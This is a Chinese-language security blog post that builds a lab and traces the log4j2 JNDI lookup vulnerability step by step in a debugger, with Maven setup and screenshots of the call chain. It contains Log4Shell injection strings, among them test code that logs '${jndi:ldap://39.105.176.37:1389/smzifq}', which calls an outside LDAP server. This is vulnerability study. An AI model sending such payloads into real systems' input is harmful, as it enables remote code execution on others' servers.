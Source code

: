 ```yaml
---
title: log4j2 jndi 漏洞学习和调试
author: ch3n9w
typora-root-url: ../
date: 2021-12-11 14:56:51
categories: 安全研究
---
```


> 明天安全圈校招面试: 
> 面试官: 请说说你会什么技能?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 面试官: 请说说你最近关注过的漏洞?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 面试官: 你平时有动手调试过吗?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 我：这dnslog是不是卡了 这面试官怎么还没rce
<!--more-->

## 环境搭建

新建maven项目, pom.xml写入
```xml
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
```
1. 在官网 https://archive.apache.org/dist/logging/log4j/ 下载log4j然后在project structure中导入

![](/images/log4j2-jndi/2021-12-11-16-16-25.png)

2. 下载低版本java8 https://repo.huaweicloud.com/java/jdk/ 我下载的是8u181,将其作为java运行环境

![](/images/log4j2-jndi/2021-12-11-16-24-14.png)

写测试代码

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Main {
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args){
        logger.error("${jndi:ldap://39.105.176.37:1389/smzifq}");
    }
}
```

## 漏洞调试

调试进入
![](/.images/log4j2-jndi/2021-12-11-15-37-32.png)


![image-20211211152434057](/images/log4j2-jndi/image-20211211152434057.png)


调试到
![image-20211211152611862](/images/log4j2-jndi/image-20211211152611862.png)



然后调试到`MessagePatternConverter#format`方法, 看到这里会试图匹配`${`字符.并将payload字符串解析到变量value中去.

![image-20211211152039629](/images/log4j2-jndi/image-20211211152039629.png)


步进replace函数, 再步进substitute函数
![image-20211211152218136](/images/log4j2-jndi/image-20211211152218136.png)

进入下一个substitute中会看到它会匹配结尾的`}`
![](/images/log4j2-jndi/2021-12-11-15-56-47.png)


再往下就可以看到`resolveVariable`方法被调用, 里面调用了`lookup`方法
![](/images/log4j2-jndi/2021-12-11-16-01-45.png)

![image-20211211152245317](/images/log4j2-jndi/image-20211211152245317.png)

在`lookup`方法中,会试图寻找`:`,并将`:`前面的部分作为prefix, 随后根据prefix来寻找类

![](/images/log4j2-jndi/2021-12-11-16-06-13.png)

可以看到这里规定了不同的prefix对应的类

![image-20211211150105597](/images/log4j2-jndi/image-20211211150105597.png)


使用的Jndi,所以使用的是`JndiLookup`类,调用了`JndiLookup#lookup`方法,并将`:`后面的部分作为参数传入.

![image-20211211150131696](/images/log4j2-jndi/image-20211211150131696.png)

最后调用到了`javax.naming.InitialContext#lookup`方法,server端收到请求
![](/images/log4j2-jndi/2021-12-11-16-11-46.png)

![](/images/log4j2-jndi/2021-12-11-16-13-38.png)

## 漏洞利用

普通的jndi注入就可以了

## 参考

https://www.anquanke.com/post/id/262668#h3-5
